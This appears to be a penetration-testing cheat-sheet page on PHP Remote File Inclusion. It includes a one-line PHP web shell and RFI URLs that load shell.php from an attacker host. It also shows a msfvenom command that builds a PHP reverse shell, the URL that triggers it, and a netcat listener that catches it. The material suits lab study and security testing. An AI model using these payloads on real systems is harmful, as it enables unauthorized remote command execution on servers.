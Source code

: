 # Remote File Inclusion (RFI)

## Remote File Inclusion

Remote File Inclusion or RFI occurs when a website allows the inclusion of remotely hosted files. The impact of this vulnerability can be low or high, depending on the server's configuration.

In PHP he `allow_url_fopen` setting (enabled by default) and `allow_url_include` setting have to be turned on.&#x20;

### Vulnerable Code

PHP vulnerable code:

```php
<?php system($_GET['cmd']); ?>
```

We can include a remote file from our server:

```
http://victim.vmx/index.php?param=ftp://user:pass@attacker_host/shell.php&cmd=id
http://victim.vmx/index.php?param=http://attacker_host/shell.php&cmd=id
```

### Finding RFI

Looking at the part `index.php?param=<Value>` we can test for RFI to see if vulnerable. I created a test.txt file on my attacking machine and then hosted the directory with a `Python SimpleHTTPServer`. Then browsed to the following:

```
http://192.168.230.53:8080/site/index.php?page=http://<YOUR_IP>/test.txt
```

As we know we are running PHP we can generate a PHP reverse shell with `msfvenom` in order to catch a reverse shell using the RFI.

```
msfvenom -p php/reverse_php LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f raw > phpreverseshell.php
```

Host this in the same directory as the `Python SimpleHTTPServer` and ensure the listening port is set to 21. Then in the browser browse to the shell we just generated.

```
http://192.168.230.53:8080/site/index.php?page=http://<YOUR_IP>/phpreverseshell.php
```

Receive a shell:

```
sudo nc -lvp 21
```
